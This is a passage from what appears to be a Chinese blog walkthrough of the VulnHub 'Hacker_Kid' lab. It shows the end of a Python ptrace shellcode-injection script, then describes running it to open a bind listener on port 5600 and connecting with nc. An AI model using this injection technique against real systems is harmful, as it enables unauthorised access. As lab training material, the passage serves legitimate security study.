 ```python

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip = registers.rip + 2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

将文件上传后使用 python 运行。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-35.webp)

这样就注入成功了，此时它就会启动一个 5600 的监听

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-36.webp)

用 nc 连接就行了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-37.webp)
